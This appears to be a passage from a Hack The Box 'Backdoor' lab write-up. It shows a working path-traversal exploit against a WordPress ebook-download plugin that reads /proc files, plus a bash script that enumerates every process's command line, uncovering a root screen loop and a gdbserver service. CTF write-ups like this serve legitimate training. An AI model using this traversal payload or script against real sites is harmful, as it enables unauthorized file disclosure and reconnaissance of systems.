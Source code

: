 I can fetch the maximum number of PID : 4194304

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/sys/kernel/pid_max --output -

<SNIP>4194304<SNIP>     
```

After a few trial, I could retrieve the command line with the following URL.

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline | tr '\000' ' ' | cut -c115- | rev | cut -c32- | rev
/usr/sbin/apache2 -k start 
```

The breaks down as:

- `tr '\000' ' '` - replace nulls with spaces
- `cut -c115-` start at character 115 and print the rest. I’ll note that 115 is three times the length of the parameter plus 1.
- `rev | cut -c32- | rev` - reverse the string, start 32 characters in, and then reverse again, effectively removing the last 31 characters.

This traversal also works with absolute paths, so `ebookdownloadurl=/proc/self/cmdline`.

I can make a quick bash script to repeat this process to retrieve all processes' cmdlines.

```bash
#!/bin/bash

for i in $(seq 1 4194304); do

    path="../../../../../../proc/${i}/cmdline"
    skip_start=$(( 3 * ${#path} + 1))
    skip_end=32

    res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path} -o- | tr '\000' ' ')
    output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
    if [[ -n "$output" ]]; then
        echo "${i}: ${output}"
    fi

done
```

I ran the script, and among the command lines, I found one catching my sight.

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ ./get_cmdline.sh  
1: /sbin/init auto automatic-ubiquity noprompt 

...SNIP...

874: /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done 
879: /usr/lib/policykit-1/polkitd --no-debug 
881: /usr/lib/policykit-1/polkitd --no-debug 
884: /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done 
887: /sbin/agetty -o -p -- \u --noclear tty1 linux 

...SNIP...
```
